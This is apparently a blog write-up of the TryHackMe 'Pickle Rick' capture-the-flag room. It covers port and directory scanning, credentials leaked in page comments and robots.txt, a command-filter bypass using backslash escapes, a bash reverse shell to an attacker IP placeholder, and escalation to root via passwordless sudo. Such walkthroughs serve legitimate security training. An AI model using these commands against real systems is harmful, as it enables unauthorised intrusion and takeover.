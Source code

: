 ```yaml
---
layout: post
title:  "THM - Pickle Rick Writeup"
date:   2022-09-11
author:
  - "Mario Raciti"
tags: ctf
cover_image: "https://i.imgur.com/BkKtAkO.png"
---
```


This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
<!-- readmore -->

![cover](https://i.imgur.com/BkKtAkO.png)

There is only one task, indicating that we have to get three ingredients (flags). So without any further ado, let's begin our game!

> TryHackMe CTF Room: <https://tryhackme.com/room/picklerick>

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP -oN logs/nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 00:01 CEST
Nmap scan report for 10.10.166.156
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1b:e2:11:5e:45:4a:75:91:cb:d5:ec:00:2a:1d:cf:65 (RSA)
|   256 1b:78:9f:27:b3:aa:16:c2:b4:c6:be:f8:d2:61:7f:ba (ECDSA)
|_  256 b4:66:1e:a1:27:d3:3c:cc:e1:38:44:f4:79:3c:9e:81 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.51 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Thus, we can guess that a candidate username for a login could be `R1ckRul3s`.

Now let's look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

Wubbalubbadubdub
```

Okay maybe `Wubbalubbadubdub` could be a password (?), that is funny though. Furthermore, by trying to discover some admin page, we can find a login page at the `/login.php`endpoint.

### Gobuster

Since we didn't find any useful information apart from the login page, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt -o logs/gobuster.log

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.166.156
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/01 00:13:36 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2020/10/01 00:13:49 Finished
===============================================================
```

As we can see, the tool found only one directory: `/assets`. Therefore we can investigate on that:

```
GET http://$IP/assets/

Parent Directory   -  
bootstrap.min.css 2019-02-10 16:37 119K  
bootstrap.min.js 2019-02-10 16:37 37K  
fail.gif 2019-02-10 16:37 49K  
jquery.min.js 2019-02-10 16:37 85K  
picklerick.gif 2019-02-10 16:37 222K  
portal.jpg 2019-02-10 16:37 50K  
rickandmorty.jpeg 2019-02-10 16:37 488K  
```

It seems that we found some... rubbish!

## First ingredient

Let's try the `R1ckRul3s:Wubbalubbadubdub` login combination in the portal login page found at `$IP/login.php`.

Bingo! We have access to the command panel. Thus, we can try to execute an ls command to see if something is interesting:

```sh
$ ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

We can try to read the content of `Sup3rS3cretPickl3Ingred.txt`:

```sh
$ cat Sup3rS3cretPickl3Ingred.txt

Command disabled to make it hard for future PICKLEEEE RICCCKKKK
```

Damn. But we can bypass that by escaping every char with a backslash:

```sh
$ \c\a\t Sup3rS3cretPickl3Ingred.txt

***first_ingredient***
```

## Second ingredient

Let's read the content of the `clue.txt` file:

```sh
$ \c\a\t clue.txt

Look around the file system for the other ingredient.
```

Since we can perform command injections, we can try to get a reverse shell. Firstly, we can run netcat and make it listen on port 4444, then we can simply execute the following in the command panel webpage:

```sh
bash -c "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"
```

And voilà! We got a reverse shell:

```sh
$ nc -lvnp 4444

Connection from 10.10.166.156:56724
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-166-156:/var/www/html$ 
```

Now we can go in the home directory and find the second ingredient in Rick's home:

```sh
www-data@ip-10-10-166-156:/var/www/html$ cd ../../home
cd ../../home
bash: cd: ../../home: No such file or directory
www-data@ip-10-10-166-156:/var/www/html$ cd ../../../home
cd ../../../home
www-data@ip-10-10-166-156:/home$ ls
ls
rick
ubuntu
www-data@ip-10-10-166-156:/home$ cd rick
cd rick
www-data@ip-10-10-166-156:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-166-156:/home/rick$ cat *
cat *
***second_ingredient***
```

## Third ingredient

To get the latest ingredient we have to elevate our privileges. Let's check out a `sudo -l` for our current user, `www-data`:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-166-156.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-166-156.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, easy peasy! It seems that the user `www-data` is allowed to perform all commands as root. We can finally get the third ingredient:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo su
sudo su
/bin/bash -i
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-166-156:/var/www/html# cd 
cd
root@ip-10-10-166-156:~# ls 
ls 
3rd.txt
snap
root@ip-10-10-166-156:~# cat 3rd.txt
cat 3rd.txt
***third_ingredient***
```

---

### That's all folks

You can find the files related to this CTF at <https://github.com/tsumarios/CTF-Writeups/tree/master/THM/Pickle-Rick>.
